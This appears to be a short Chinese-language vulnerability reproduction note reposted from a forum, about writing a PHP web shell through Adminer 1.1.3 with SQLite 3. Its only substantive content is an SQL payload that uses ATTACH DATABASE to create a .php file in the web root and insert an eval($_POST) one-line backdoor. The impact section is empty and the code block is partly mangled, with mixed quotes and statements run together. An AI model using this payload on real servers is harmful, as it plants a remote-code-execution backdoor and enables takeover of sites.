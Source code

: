 # Adminers 1.1.3 （SQLite 3 写入一句话木马）

> 原文：[https://www.zhihuifly.com/t/topic/2803](https://www.zhihuifly.com/t/topic/2803)

# Adminers 1.1.3 （SQLite 3 写入一句话木马）

## 一、漏洞简介

需要登陆Adminers，并且需要知道网站的路径。

## 二、漏洞影响

## 三、复现过程

```
ATTACH DATABASE 'z.php' AS t;create TABLE t.e (d text);/* `ATTACH DATABASE ‘/网站/路径/shell.php’ AS t;insert INTO t.e (d) VALUES (’<?php eval($_POST[a])?>’);/*` 
```